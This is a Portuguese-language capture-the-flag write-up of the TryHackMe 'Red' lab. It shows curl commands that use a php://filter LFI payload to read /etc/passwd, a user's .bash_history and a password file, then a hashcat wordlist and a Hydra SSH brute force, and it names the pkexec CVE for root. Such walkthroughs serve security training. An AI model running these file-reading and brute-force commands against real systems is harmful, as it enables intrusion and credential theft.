

<div align="center">

# 🚩 TryHackMe – Red (Writeup)

*"A classic battle for the ages."* ⚔️🐉

<p align="center">
  
</p>

</div>

---

<div align="center">

## 📌 Informações da Máquina

* **Categoria:** Linux | Web
* **Dificuldade:** 🟢 Easy
* **Tempo Estimado:** ⏱️ 180 min
* **Status:** ✅ Rooted com sucesso

</div>

---

<div align="center">

## 🗺️ Roadmap da Exploração

</div>



---

## 🔍 Enumeração Inicial

Configuração de variáveis:

```bash
export TARGET=10.201.46.185
export ATTACKER=10.201.1.201
mkdir -p ~/thm/red && cd ~/thm/red
```

Teste de conectividade (TTL indica Linux):

```bash
ttl=$(ping -c 1 $TARGET 2>/dev/null | awk -F'ttl=' '/ttl=/{print $2}' | cut -d ' ' -f1); echo "TTL=$ttl"
TTL=64
```

### Nmap rápido

```bash
nmap -sC -sV -Pn -T4 -oN nmap_quick.txt $TARGET
```

**Serviços encontrados:**

* **22/tcp** → SSH (OpenSSH 8.2p1 Ubuntu)
* **80/tcp** → HTTP (Apache 2.4.41)

### Nmap completo

```bash
nmap -p- --min-rate 5000 -T4 -oN nmap_all.txt $TARGET
```

Confirma apenas **22 e 80 abertos**.

A página web mostra o template *“Atlanta”* e o parâmetro `?page=` → potencial **LFI**.

---

## 📂 LFI – Local File Inclusion

Testando leitura de `index.php` via wrapper `php://filter`:

```bash
curl -s "http://$TARGET/index.php?page=php://filter/convert.base64-encode/resource=index.php" | base64 -d | tee src_index.php
```

Código revelado (trecho relevante):

```php
$page = $_GET['page'];
if (isset($page) && preg_match("/^[a-z]/", $page)) {
    $page = sanitize_input($page);
    readfile($page);
} else {
    header('Location: /index.php?page=home.html');
}
```

➡️ Bloqueio parcial contra `../`, mas conseguimos **incluir arquivos do sistema**.

Exemplo: `/etc/passwd`

```bash
curl -s "http://$TARGET/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd" | base64 -d | tee etc_passwd.txt
```

Usuários encontrados:

```
root:x:0:0:root:/root:/bin/bash
blue:x:1000:1000:blue:/home/blue:/bin/bash
red:x:1001:1001::/home/red:/bin/bash
```

---

## 🧾 Descoberta de Senha – Usuário Blue

Explorando histórico:

```bash
curl -s "http://$TARGET/index.php?page=php://filter/convert.base64-encode/resource=/home/blue/.bash_history" | base64 -d
```

Trecho relevante:

```
hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
```

Arquivo `.reminder` encontrado:

```bash
curl -s "http://$TARGET/index.php?page=php://filter/convert.base64-encode/resource=/home/blue/.reminder" | base64 -d
*****
```

---

## 🔑 Quebra de Senha + SSH

Gerando wordlist com Hashcat:

```bash
hashcat --stdout reminder.txt -r /usr/share/hashcat/rules/best64.rule > passlist.txt
```

Brute-force com Hydra:

```bash
hydra -l blue -P passlist.txt ssh://$TARGET -t 4 -f -V
```

Credenciais válidas:

```
login: blue
password: *****
```

Acesso via SSH:

```bash
ssh blue@$TARGET
```

---

## 👤 Flag 1 – Usuário Blue

```bash
blue@red:~$ ls -lh
-rw-r----- 1 root blue 34 Aug 14  2022 flag1

cat flag1
THM{*****}
```

Mensagem do sistema:
*"Don't be silly Blue, you will never win."*

---

## 🔑 Acesso ao Usuário Red

Dentro do `/home/`, há diretório `red`.
Enumerando:

```bash
cd /home/red
ls -la
```

Arquivo encontrado: **flag2**

```bash
cat flag2
THM{*****}
```

---

## ⚡ Escalada de Privilégio – CVE-2021-4034 (pkexec)

Exploração do **pkexec** (*Polkit Priv Esc*).
Após compilar e executar o exploit → root shell.

---

## 👑 Flag 3 – Root

```bash
cd /root
ls
root.txt
cat root.txt
THM{*****}
```

---

## 🧩 Fluxo Final

1. Enumeração → apenas **SSH e HTTP**.
2. Descoberta de **LFI** em `index.php?page`.
3. Leitura de **/home/blue/.reminder** → senha base.
4. Uso de **Hashcat + Hydra** → acesso SSH do blue.
5. Flag1 (Blue) → pivot para usuário red.
6. Flag2 (Red) → preparação para root.
7. **CVE-2021-4034 (pkexec)** → root.
8. Flag3 final.

---

## 🎉 Conclusão

Essa máquina mistura várias técnicas clássicas:

* Exploração de **LFI** para exfiltrar arquivos.
* Abuso de **bash\_history** e wordlist customizada.
* Força bruta com **hashcat + hydra**.
* **Pivoting** entre usuários (blue → red).
* Escalada final com **CVE pkexec**.

💡 Excelente box para praticar **File Inclusion + Password Cracking + Privilege Escalation** em um fluxo didático de ponta a ponta.

---

<div align="center">


</div>
